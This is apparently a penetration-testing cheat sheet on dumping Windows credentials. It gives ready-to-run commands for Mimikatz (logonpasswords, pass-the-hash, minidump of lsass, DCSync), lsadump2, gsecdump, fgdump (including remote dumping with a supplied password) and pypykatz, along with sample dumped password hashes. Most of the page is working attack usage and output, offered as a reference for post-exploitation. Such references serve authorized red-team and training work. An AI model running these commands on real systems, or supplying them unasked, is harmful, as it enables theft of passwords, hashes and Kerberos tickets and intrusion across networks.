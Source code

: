 ```yaml
---
description: >-
  process of obtaining account login and password information, normally in the
  form of a hash or a clear text password.
---
```


# Password Dumping

## Mimikatz

Mimikatz is a leading post-exploitation tool that dumps passwords from memory, as well as hashes, PINs and Kerberos tickets.

Link: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

### **Quick usage**

Ask for debug privilege for mimikatz process. \(have to be done first\) 

`privilege::debug` 

**Clear screen** 

`Cls` 

**Exit mimikatz**

`Exit` 

### **Examples**

**Dump credentials:** 

```text
privilege::debug  
sekurlsa::logonpasswords
```

  **Pass-The-Hash** 

`mimikatz # sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a` 

**Minidump** 

`mimikatz # sekurlsa::minidump lsass.dmp` 

**DCSync** 

`lsadump::dcsync /domain:pentestlab.local /user:test` 

## lsadump

This is an application to dump the contents of the LSA secrets on a machine, provided you are an Administrator. It uses the same technique as pwdump2 to bypass restrictions that Microsoft added to LsaRetrievePrivateData\(\), which cause the original lsadump to fail. 

Lsadump2 requires Administrator access to run. The usage for lsadump2 is shown here: 

`C:\>lsadump2.exe Lsadump2` - dump an LSA secret. Usage: lsadump2.exe &lt;pid of lsass.exe&gt; &lt;secret&gt; 

You will have to determine the PID of the lsass \(just as with pwdump2\): 

`C:\>tlist | find /i "lsass" 244 LSASS.EXE` 

## gsecdump

gsecdump is a publicly-available credential dumper used to obtain password hashes and LSA secrets from Windows operating systems.

Link: [https://download.openwall.net/pub/projects/john/contrib/win32/pwdump/gsecdump-0.7-win32.zip](https://download.openwall.net/pub/projects/john/contrib/win32/pwdump/gsecdump-0.7-win32.zip)

### example

`C:\Documents and Settings\nobody\Desktop>gsecdump -u gsecdump -u MSHOME\XPSP1VM$::aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`

## FGDump

Cachedump aka In-memory attacks for SAM hashes / Cached Domain Credentials.

Example locally:

```text
C:\Documents and Settings\malware\Bureau\fgdump-2.1.0-exeonly>fgdump.exe 
fgDump 2.1.0 - fizzgig and the mighty group at foofus.net 
Written to make j0m0kun's life just a bit easier 
Copyright(C) 2008 fizzgig and foofus.net 
fgdump comes with ABSOLUTELY NO WARRANTY! 
This is free software, and you are welcome to redistribute it 
under certain conditions; see the COPYING and README files for 
more information. 
--- Session ID: 2014-01-20-19-10-02 --- 
Starting dump on 127.0.0.1 
** Beginning local dump ** 
OS (127.0.0.1): Microsoft Windows XP Professional Service Pack 3 (Build 2600) 
Passwords dumped successfully 
Cache dumped successfully 
-----Summary----- 
Failed servers: 
NONE 
Successful servers: 
127.0.0.1 
Total failed: 0 
Total successful: 1 
```

fgdump has successfully dumped the password hashes: 

```text
C:\Documents and Settings\malware\Bureau\fgdump-2.1.0-exeonly>more 127.0.0.1.pwdump 
Administrateur:500:B0347EB22B87E3F1AAD3B435B51404EE:711EFD7CDC285C11DDFAE2B3D9861DB1::: 
HelpAssistant:1000:6C34BBCD28DD6A8A56088AD6CEFC1BFB:D474527929F6B428B7EA2F7C8B79CE5A::: 
InvitÚ:501:NO PASSWORD*********************:NO PASSWORD*********************::: 
malware:1003:NO PASSWORD*********************:NO PASSWORD*********************::: 
SUPPORT_388945a0:1002:NO PASSWORD*********************:AAB42B496473C917825C842BEACF0B75:::
```

  Dumping the Local Machine Using a Different Account 

`fgdump.exe -h 127.0.0.1 -u AnAdministrativeUser`  

 Dumping a Remote Machine \(192.168.0.10\) Using a Specified User \(1\) 

 `fgdump.exe -h 192.168.0.10 -u AnAdministrativeUser -p l4mep4ssw0rd`  

##  pypykatz

Mimikatz implementation in pure Python.

**parsing lsass dump:**

```text
pypykatz lsa -k /kerberos/output/dir minidump lsass.dmp
```

\`\`

